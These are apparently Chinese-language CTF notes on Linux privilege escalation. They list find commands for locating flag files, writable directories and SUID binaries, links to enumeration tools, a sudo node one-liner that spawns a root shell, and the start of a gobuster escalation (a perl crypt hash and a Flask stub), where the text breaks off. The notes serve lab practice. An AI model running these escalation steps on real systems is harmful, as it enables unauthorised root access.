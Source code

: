 > find

以下是“查找”命令的一些有用示例。

- `find . -name flag1.txt`: 在当前目录中查找名为 "flag1.txt" 的文件
- `find /home -name flag1.txt`: 在 `/home` 目录中查找名为 "flag1.txt" 的文件
- `find / -type d -name config`: 在根目录 `/` 下查找名为 "config" 的目录
- `find / -type f -perm 0777`: 查找具有 777 权限（所有用户均可读、写、执行）的文件
- `find / -perm a=x`: 查找可执行文件
- `find /home -user frank`: 在 `/home` 目录下查找属于用户 "frank" 的所有文件
- `find / -mtime 10`: 查找过去 10 天内修改过的文件
- `find / -atime 10`: 查找过去 10 天内访问过的文件
- `find / -cmin -60`: 查找在过去一小时（60 分钟）内更改过的文件
- `find / -amin -60`: 查找在过去一小时（60 分钟）内访问过的文件
- `find / -size 50M`: 查找大小为 50 MB 的文件

值得注意的是，“find”命令往往会产生错误，有时会导致输出难以阅读。这就是为什么明智的做法是使用“find”命令和“`-type f 2>/dev/null`”将错误重定向到“`/dev/null`”并获得更清晰的输出。

- `find / -writable -type d 2>/dev/null`: 查找全局可写文件夹
- `find / -perm -222 -type d 2>/dev/null`: 查找全局可写文件夹
- `find / -perm -o w -type d 2>/dev/null`: 查找全局可写文件夹
- `find / -perm -o x -type d 2>/dev/null`: 查找全局可执行文件夹

查找开发工具和支持的语言：

- `find / -name perl*`
- `find / -name python*`
- `find / -name gcc*`

查找特定文件权限：

- `find / -perm -u=s -type f 2>/dev/null`: 查找带有SUID位的文件，它允许我们以比当前用户更高的权限级别运行该文件。

### 自动化工具

- [linPEAS](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS)
- [LinEnum](https://github.com/rebootuser/LinEnum)
- [LES](https://github.com/The-Z-Labs/linux-exploit-suggester)
- [pspy](https://github.com/DominicBreuker/pspy)
- [hack网站](https://book.hacktricks.wiki/en/index.html)

(使用方法自己看一眼就知道了)

### 常见提权方式(只写一些经常遇到的)

#### 内核漏洞

kali有集成工具searchsploit，输入版本号去找就行，然后上传到靶机里面

#### sudo提权

> sudo node -e 'child_process.spawn("/bin/bash",{stdio: [0,1,2]})'

#### gobuster提权

```#kali
perl -e 'print crypt("1","aa")'

cat a.py
from flask import Flask, Response

app = Flask(__name__)

@app.route('/', defaults={'path': ''})
@app.route('/<path:path>')
def catch_all(path):
    if len(path) == 36:
        return Response(status=404)
```